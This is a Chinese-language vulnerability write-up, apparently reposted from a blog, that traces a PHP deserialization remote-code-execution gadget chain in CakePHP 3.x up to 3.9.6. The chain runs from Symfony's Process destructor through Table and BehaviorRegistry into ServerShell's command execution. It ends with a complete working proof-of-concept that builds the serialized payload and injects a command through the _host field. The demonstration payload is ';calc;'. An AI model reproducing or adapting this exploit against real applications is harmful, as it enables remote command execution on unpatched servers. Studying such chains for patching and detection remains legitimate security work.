# cakephp 反序列化rce链

[CakePHP 3.x/4.x反序列化RCE链_cakephp 反序列化-CSDN博客](https://blog.csdn.net/why811/article/details/133812903)

#### 3.x ≤ 3.9.6

全局查找system我们可以找到sink

位置:cakephp-3-9-6/vendor/cakephp/cakephp/src/Shell/ServerShell.php



接着我们找source，php反序列化漏洞中source一般就\_\_destruct方法和\_\_wakeup这两个方法

位置:vendor\symfony\process\Process.php



这就是我们要找的入口类，为什么呢

我们跟进stop方法



看到这里调用了isRunning()方法

跟进isRunning()



这里有个判断，但是status的值是可控的



我们只需要使status等于started即可



接着跟进updateStatus()方法



接着跟进readPipes方法




我们可以看到这个$processPipes变量是可控的，也就是说我们可以调用任意类的__call方法

接着我们全局搜索__call方法

可以找到在`vendor\cakephp\cakephp\src\ORM\Table.php`有合适的`__call`方法：



这里的`$this->_behaviors`也可控，到这里我们就可以调用任意类的`call`方法了

继续找

在`vendor\cakephp\cakephp\src\ORM\BehaviorRegistry.php`找到了合适的`call`方法：



这里调用了call_user_func_array方法，可以调用任意类任意方法了

进入到call_user_func_array要通过一个判断

我们跟进hasMethod方法，`$this->_methodMap`可控，所以可以使其返回true




再来看has方法



再来看看has方法，`$this->_loaded`也可控

接下来我们就可以想办法用call_user_func_array调用我们找到的sink了

回到`vendor\cakephp\cakephp\src\Shell\ServerShell.php`的main方法



执行的命令由可控参数$this->_host、$this->_port等拼接而成，我们可以利用分号进行命令注入

但是由于前面的php -S命令，在windows下没有php环境变量可能无法利用

在执行命令之前，还得先让两个$this->out方法正常返回，否则会报错退出

一路跟进来到vendor\cakephp\cakephp\src\Console\ConsoleIo.php


level为1



只需要使_level小于1即可返回true

那我们接下来就可以通过拼接执行命令了

poc

```php
<?php
namespace Cake\Core;
abstract class ObjectRegistry
{
    public $_loaded = [];
}
 
 
namespace Cake\ORM;
class Table
{
    public $_behaviors;
}
 
use Cake\Core\ObjectRegistry;
class BehaviorRegistry extends ObjectRegistry
{
    public $_methodMap = [];
    protected function _resolveClassName($class){}
    protected function _throwMissingClassError($class, $plugin){}
    protected function _create($class, $alias, $config){}
}
 
 
namespace Cake\Console;
class Shell
{
    public $_io;
}
 
class ConsoleIo
{
    public $_level;
}
 
namespace Cake\Shell;
use Cake\Console\Shell;
class ServerShell extends Shell
{
    public $_host;
    protected $_port = 0;
    protected $_documentRoot = "";
    protected $_iniPath = "";
}
 
 
namespace Symfony\Component\Process;
use Cake\ORM\Table;
class Process
{
    public $processPipes;
}
 
 
$pop = new Process([]);
$pop->status = "started";
$pop->processPipes = new Table();
$pop->processPipes->_behaviors = new \Cake\ORM\BehaviorRegistry();
$pop->processPipes->_behaviors->_methodMap = ["readandwrite"=>["servershell","main"]];
$a = new \Cake\Shell\ServerShell();
$a->_io = new \Cake\Console\ConsoleIo();
$a->_io->_level = 0;
$a->_host = ";calc;";
$pop->processPipes->_behaviors->_loaded = ["servershell"=>$a];
 
echo base64_encode(serialize($pop));
```

